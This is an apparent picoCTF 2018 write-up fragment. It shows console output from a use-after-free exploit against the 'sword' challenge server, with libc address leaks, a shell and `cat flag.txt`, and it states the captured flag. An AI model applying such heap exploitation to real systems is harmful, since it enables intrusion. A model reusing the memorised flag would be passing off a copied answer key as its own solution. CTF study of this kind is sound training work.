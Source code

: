 ```console
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 2018shell3.picoctf.com on port 44116: Done
[*] Forged sword: 0
[*] Forged sword: 1
[*] Forged sword: 2
[*] Forged sword: 3
[*] Sword #0 pseudo-freed
[*] Sword #1 hardened with name '0800000000000000602060000000000000000000000000000000000000000000' (length: 32, weight: -1)
[*] Sword #0 has name '0v0' (30e17630d17f)
[*] Address of malloc: 0x7fd13076e130
[*] LibC base: 0x7fd1306ea000
[*] Sword #2 pseudo-freed
[*] /bin/sh location: 0x7fd130876d57
[*] Address of system(): 0x7fd13072f390
[*] Sword #3 hardened with name '0800000000000000576d8730d17f000090f37230d17f00000000000000000000' (length: 32, weight: -1)
[*] Sword #2 used
[*] Switching to interactive mode
Blade master is angry!
$ ls
flag.txt
libc.so.6
sword
sword.c
xinet_startup.sh
$ cat flag.txt
picoCTF{usE_aFt3R_fr3e_1s_aN_1ssu3_300469f1}
$
```

The flag: picoCTF{usE_aFt3R_fr3e_1s_aN_1ssu3_300469f1}